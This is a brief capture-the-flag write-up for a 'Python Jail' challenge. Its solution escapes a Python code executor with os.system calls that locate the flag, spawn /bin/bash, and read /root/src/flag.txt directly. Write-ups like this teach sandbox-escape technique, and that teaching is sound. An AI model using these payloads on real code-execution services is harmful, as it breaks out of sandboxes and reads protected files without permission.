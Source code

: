 # Python Break
## Jail

> This feels like a whole different world
> 
> nc 128.199.77.173 1342

### Files
- N/A

### Analysis
Participants were expected to figure out that this was also a Python code executor.<br/>
Instead of accessing a variable, the challenge required participants to break out of the Python environment to access the flag by using the OS module.

### Solution
1. To locate the flag file<br/>
  ```python
  print(os.system("locate flag.txt"))
  ```

2. Gaining root access to the container or directly reading the file<br/>
  ```python
  print(os.system("/bin/bash"))
  ``` or ```python
  print(os.read(os.open('/root/src/flag.txt', os.O_RDONLY),100))
  ```
